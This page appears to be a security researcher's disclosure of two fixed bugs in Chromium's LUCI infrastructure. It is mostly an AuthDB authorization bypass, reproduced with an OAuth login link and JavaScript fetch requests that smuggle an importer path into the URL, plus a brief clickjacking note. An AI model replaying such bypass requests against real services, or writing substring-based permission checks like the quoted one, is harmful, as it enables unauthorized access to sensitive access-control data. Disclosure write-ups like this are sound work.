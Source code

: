 ```yaml
---
title: Chromium infra
---
```


# LUCI AuthDB leak (Fixed, Awarded $1000)

LUCI is the CI (Continuous integration) infrastructure for the Chromium project.
This database represents all data used when authorizing incoming requests and handling authentication related tasks: user groups, IP allow lists, OAuth client ID allowlist, etc.

- Login to this URL as any normal google user.
  <https://accounts.google.com/o/oauth2/v2/auth?gsiwebsdk=3&client_id=446450136466-tmlcmovb9hnoh8rhs39846vmmd0rrsl0.apps.googleusercontent.com&scope=https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email&redirect_uri=https%3A%2F%2Fdefaultv2-dot-chrome-infra-auth.appspot.com%2Fauth%2Fopenid%2Fcallback&prompt=select_account&response_type=token&include_granted_scopes=false&enable_granular_consent=true>

- Copy the `access_token` value from the url hash.
- On that same page, run the following

```js
fetch(
  "https://defaultv2-dot-chrome-infra-auth.appspot.com/auth_service/api/v1/authdb/subscription/authorization?x=/auth_service/api/v1/importer/ingest_tarball/",
  {
    headers: {
      authorization: "Bearer <token goes here>",
    },
    referrerPolicy: "strict-origin-when-cross-origin",
    method: "POST",
    mode: "cors",
  },
);
```

You should now be granted permission to luci-go AuthDB without being in the "auth-trusted-services" group needed as per <https://pkg.go.dev/go.chromium.org/luci/server/auth/service#AuthService.RequestAccess>

`{"topic":"projects/chrome-infra-auth/topics/auth-db-changed","authorized":true,"gs":{"auth_db_gs_path":"chrome-infra-auth.appspot.com/auth-db","authorized":true}}`

You can also use the API to download the DB.

```js
fetch(
  "https://defaultv2-dot-chrome-infra-auth.appspot.com/auth_service/api/v2/authdb/revisions/latest?x=/auth_service/api/v1/importer/ingest_tarball/",
  {
    headers: {
      authorization: "Bearer <token>",
    },
    referrerPolicy: "strict-origin-when-cross-origin",
    method: "GET",
    mode: "cors",
  },
);
```

The bypass is that if the URL contains `/auth_service/api/v1/importer/ingest_tarball/` anywhere the permission check gets bypassed.
Code is `strings.Contains(ctx.Request.URL.RequestURI(), "/auth_service/api/v1/importer/ingest_tarball/")`
Otherwise I would get `{"text":"user:ndevtk@protonmail.com is not a member of auth-trusted-services or administrators"}`

This was fixed in <https://chromium-review.googlesource.com/c/infra/luci/luci-go/+/5595490>

# Clickjacking RPC Explorer (Fixed)

Go-based services that has gRPC APIs, import "go.chromium.org/luci/server", and call server.Main
Get a web based user interface for example <https://ci.chromium.org/rpcexplorer/services/> this used to not have embed protection.

This was fixed in <https://chromium-review.googlesource.com/c/infra/luci/luci-go/+/4889788>
